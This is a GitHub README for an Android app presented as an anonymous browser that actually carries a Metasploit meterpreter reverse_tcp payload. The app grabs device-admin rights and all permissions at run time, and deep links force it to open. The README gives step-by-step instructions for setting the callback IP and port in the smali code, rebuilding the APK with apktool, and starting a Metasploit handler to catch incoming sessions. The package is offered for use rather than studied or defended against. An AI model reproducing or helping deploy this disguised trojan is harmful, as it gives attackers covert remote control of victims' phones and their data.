<p align="center">
<img src="https://github.com/Ba-hub/Startpage/raw/master/logo.png" height="60"><br>
A Metasploit Base Payload & Anonymous Browser Interface
</p>



## Features
- Listening Connection By Metasploit Framework 
- android/meterpreter/reverse_tcp 
- Added Deep Link Service
- Enable Device Admin Apk 
- Enable all permission in run time 

## Prerequisites 
 - Metasploit Framework
    - apktool
 - apk-signer click [HERE](https://github.com/Ba-hub/apk-signer.git) for Repository Clone


## Screenshot 
<img src="https://github.com/Ba-hub/Startpage/raw/master/ss1.png" height="100"><br>

<img src="https://github.com/Ba-hub/Startpage/raw/master/ss2.png" height="100"><br>

<img src="https://github.com/Ba-hub/Startpage/raw/master/ss3.png" height="100"><br>

## Instructions

** Go to payload.smali Line No 19

```
.field public static final URL:Ljava/lang/String; = "ZZZZtcp://192.168.225.178:4444"

```

---- Change The IP Or Port 

** Go to AndroidManifeast.xml Line No 42

```
<data android:host="www.github.com" android:pathPrefix="/Ba-hub" android:scheme="myapp" />

```

--- change the host | pathPrefix | scheme [http/https/myapp] as your Wish Which Is Force to Open App By Your Provided URL same As Above 

### Apk Build 

``` 
apt install apktool 

apktool b -f Startpage -o Startpage.apk

```
You Can Also Edit By ApkEditor & ApkEditor Pro click [HERE](https://iconicbabay.github.io/download-anythings/) for downloads the Demo Apk 



### Listening Connection By Metasploit

```

msfconsole -q

msf6> use exploit/multi/handler

msf6> set payload android/meterpreter/reverse_tcp 

msf6> set LHOST <IP>

msf6> set LPORT <port>

msf6> exploit -j 

```

    

<br>
<p align="center">Made with 💀 By <a href="http://iconicbabay.medianewsonline.com">Ghosthub</a></p>
